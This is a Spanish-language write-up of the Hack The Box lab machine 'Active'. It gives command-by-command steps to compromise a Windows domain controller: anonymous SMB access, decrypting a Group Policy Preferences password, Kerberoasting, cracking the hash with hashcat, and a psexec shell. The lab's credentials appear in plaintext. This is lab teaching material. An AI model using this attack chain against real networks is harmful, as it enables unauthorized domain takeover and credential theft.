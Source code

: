 
# Active

![image](https://user-images.githubusercontent.com/86425612/170834497-d119123c-8e35-4cc7-aa69-5060c470e71a.png)

Realizamos un escaneo rapido con nmap:

`nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 10.10.10.100 -oG allPorts`

usamos el comando `extractPorts allPorts`

![image](https://user-images.githubusercontent.com/86425612/170834662-8d9d0b0c-f2da-4756-a5f9-d3c06c0e622e.png)

Nos permite copiar y pegar los puertos detectados comodamente en otro comando nmap mas exhaustivo:

![image](https://user-images.githubusercontent.com/86425612/170834875-12622c06-6e7a-417c-a480-4af7dcfba0c2.png)

Enumerando los diferentes puertos encontramos puertos interesantes que sugieren la posibilidad de que esta maquina sea un Domain Controller, nos centramos en el puerto más "low hanging fruit" este siendo SMB puerto 445.

Enumeramos SMB con smbmap:

`smbmap -H 10.10.10.100`

![image](https://user-images.githubusercontent.com/86425612/170835022-f262cc80-3182-492b-ae11-ba2b6d565dbf.png)

Observamos que tenemos acceso de manera anonima al Share Replication.

Entramos dentro de este anonimamente con:

`smbclient \\\\10.10.10.100\\Replication -N`

Indagando dentro de los diferentes directorios encontramos un archivo Groups.xml que destaca especialmente debido a la falta de ficheros en dicho SMB Share, descargamos dicho fichero.

![image](https://user-images.githubusercontent.com/86425612/170835169-a8a1dbe4-32c4-468a-ba79-b13ccb8dae32.png)

Salimos de smbclient y comprobamos que contiene este archivo Groups.xml

![image](https://user-images.githubusercontent.com/86425612/170835321-2cf8785b-daf6-4352-b19d-a092f672f131.png)

Podemos observar que esta archivo contiene los "*Group Policy Preferences*" el cual podemos abusar si contiene los campos "userName" y "cpassword" en este caso ambos se encuentran dentro de dicho archivo.

Desciframos el campo "cpassword" con el comando siguiente:

`gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

![image](https://user-images.githubusercontent.com/86425612/170835456-14e2829b-60fb-4063-b37c-f34e10eee0c2.png)

Una vez obtenida la contraseña para el usuario de "userName" el cual contiene el dominio y el usuario al que pertenece dicha contraseña, podemos proceder a comprobar el acceso de dicha cuenta:

`crackmapexec smb --shares 10.10.10.100 -u SVC_TGS -p GPPstillStandingStrong2k18`

Y obtenemos la siguiente información:

![image](https://user-images.githubusercontent.com/86425612/170835539-176729c4-7880-48af-a794-809a086cfb63.png)

Observamos que podemos leer más Shares que de manera anonima, especialmente destaca la Share "*Users*" así que accedemos a esta.

`smbclient \\\\10.10.10.100\\Users -U SVC_TGS%GPPstillStandingStrong2k18`

![image](https://user-images.githubusercontent.com/86425612/170835585-1d9d108c-5024-4bd9-810e-d4471fccb5d3.png)

Actualmente nos encontramos en C:\Users, intentamos acceder al escritorio de SVC_TGS y obtenemos user.txt

![image](https://user-images.githubusercontent.com/86425612/170835657-a63a5a25-c8aa-4185-a2a1-7e9b770adbb0.png)

Leemos el contenido del fichero descargado:

![image](https://user-images.githubusercontent.com/86425612/170835707-3e2a8b7b-61a3-4a52-9afe-9c5116f11199.png)

Y con esto ya tenemos la flag de User, ahora toca escalar a NT Authority\System

Teniendo un usuario del Dominio como SVC_TGS y sus credenciales podemos intentar aplicar Kerberoasting y ver si podemos obtener credenciales para algun servicio:

`GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS`

Introducimos la contraseña y obtenemos un hash para el usuario Administrator:

![image](https://user-images.githubusercontent.com/86425612/170836051-5bc81939-8209-4558-ae01-f4d7208187b3.png)

Podemos crackear este hash de manera offline con hashcat pero antes comprobamos el modo a usar con este tipo de hash

![image](https://user-images.githubusercontent.com/86425612/170836087-488a8563-14f1-47c3-945d-6a64301a013f.png)

Copiamos el hash en un archivo llamado userAdmin y lo crackeamos:

`hashcat -m 13100 -a 0 userAdmin /usr/share/wordlists/rockyou.txt --force`

![image](https://user-images.githubusercontent.com/86425612/170836184-e75b049a-1f2c-41d3-a4d2-845bdeead752.png)

Obtenemos las credenciales de Administrator, podemos acceder a través de smbclient y descargarnos root.txt o directamente conectarnos con un comando como `psexec.py`

`psexec.py Administrator:Ticketmaster1968@10.10.10.100`

![image](https://user-images.githubusercontent.com/86425612/170836263-59a05adf-0e04-4a9c-a617-d54e5a89c1d1.png)

Obtenemos shell y podemos ir a leer root.txt

![image](https://user-images.githubusercontent.com/86425612/170836317-aa0e8dcf-7d7e-45e3-8b86-2f130286d107.png)
